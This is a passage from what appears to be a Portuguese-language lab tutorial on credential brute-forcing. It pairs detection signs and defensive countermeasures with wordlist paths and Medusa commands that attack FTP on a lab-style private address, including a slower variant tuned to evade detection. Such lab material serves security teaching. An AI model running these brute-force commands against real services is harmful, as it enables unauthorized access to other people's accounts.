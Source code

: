
## 🛡️ Detecção e Contramedidas

### 🚨 Sinais de Detecção

- **Logs de tentativas múltiplas**: Administradores podem notar padrões
- **Rate limiting**: Sistemas podem implementar delays
- **Account lockout**: Contas podem ser bloqueadas após X tentativas
- **IDS/IPS alerts**: Sistemas de detecção podem disparar alertas

### 🔒 Contramedidas Defensivas

1. **Account lockout policies**
2. **Strong password policies**
3. **Fail2Ban** ou ferramentas similares
4. **Monitoramento de logs** em tempo real
5. **Autenticação multifator (MFA)**

---

## 🎯 Otimizações de Ataque

### 📚 Wordlists Mais Eficazes

```bash
# Wordlists famosas
/usr/share/wordlists/rockyou.txt          # 14M+ senhas
/usr/share/wordlists/fasttrack.txt        # Senhas comuns
/usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```

### ⚡ Parâmetros Avançados do Medusa

```bash
# Ataque mais silencioso (1 thread, com delay)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 1 -T 2

# Ataque agressivo (muitas threads)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 20

# Com timeout personalizado
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 -T 5

# Modo verbose para debugging
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 -v 6
```

---

## 🔍 Ferramentas Alternativas

### 🛠️ Hydra (Alternativa Popular)
